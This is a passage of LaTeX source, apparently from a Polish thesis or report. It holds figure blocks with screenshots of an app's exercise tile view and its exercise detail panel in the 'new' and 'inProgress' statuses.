    
\includegraphics[width=1\linewidth]{images/frontend/app/exercises.png}
    \caption{Widok kafelków z zadaniami w kontekście tematu.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/exercises_new.png}
    \caption{Widok panelu szczegółów zadania w statusie \textbf{new}.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/exercises_progress.png}
    \caption{Widok panelu szczegółów zadania w statusie \textbf{inProgress}.}
\end{figure}

\begin{figure}[H]
    \centering
